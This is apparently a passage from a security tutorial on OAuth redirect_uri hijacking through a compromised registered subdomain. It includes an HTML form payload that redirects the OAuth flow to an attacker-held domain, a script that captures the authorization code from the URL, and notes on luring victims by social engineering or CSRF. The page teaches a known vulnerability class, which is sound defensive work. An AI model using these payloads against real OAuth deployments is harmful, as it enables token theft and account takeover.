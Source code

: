 The `redirect_uri` parameter is specified during the OAuth flow to direct where the authorization server should send the token after authorization. This URI must be pre-registered in the application settings to prevent open redirect vulnerabilities. During the OAuth process, the server checks that the provided `redirect_uri` matches one of the registered URIs.

#### Exploitation

An insecure `redirect_uri` can lead to severe security issues. If attackers gain control over any domain or URI listed in the `redirect_uri`, they can manipulate the flow to intercept tokens.

* Consider an OAuth application with the following registered redirect URIs
* **Attacker's Strategy**: If an attacker gains control over `dev.client.com`, they can exploit the OAuth flow. By setting the `redirect_uri` to `http://dev.client.com/callback`, the authorization server will send the token to this controlled domain.
* **Crafted Attack:** The attacker initiates an OAuth flow and ensures the `redirect_uri` points to their controlled domain. After the user authorizes the application, the token is sent to `http://dev.client.com/callback`. The attacker can now capture this token and use it to access protected resources.\


Malicious HTLM Payload that can be redirect a user to hijack the Oauth `redirect_uri` :

{% code title="payload_redirect.htlm" overflow="wrap" %}
```html
<form action="http://oauth_provider.com:8000/oauthdemo/oauth_login/" method="get">
    <input type="hidden" name="redirect_uri" value="http://dev.client.com:8002/malicious_redirect.html">
    <input type="submit" value="Hijack OAuth">
</form>
```
{% endcode %}

HTML payload that intercept the authorization code from the URL:

```html
<script>
    // Extract the authorization code from the URL
    const urlParams = new URLSearchParams(window.location.search);
    const code = urlParams.get('code');
    document.getElementById('auth_code').innerText = code;
    console.log("Intercepted Authorization Code:", code);
    // code to save the acquired code in database/file etc
</script>
```

{% hint style="info" %}
Since the attacker has complete control over the subdomain, once he redirects a victim to the attacker-controlled domain, he will save the credentials in a database/file, etc., for later usage. Moreover, the redirection from redirect\_uri to the original URL would be so quick that the victim would have no idea that his authorization code has been hijacked.
{% endhint %}

The attacker can send User the link ([http://dev.client.com:8002/payload\_redirect.htlm](oauth-security.md#key-concepts)) through social engineering tactics or a CSRF attack. The victim, unsuspecting of the malicious intent, clicks on the link, which takes them to the URL `dev.client.com:8002/payload_redirect.htlm`.
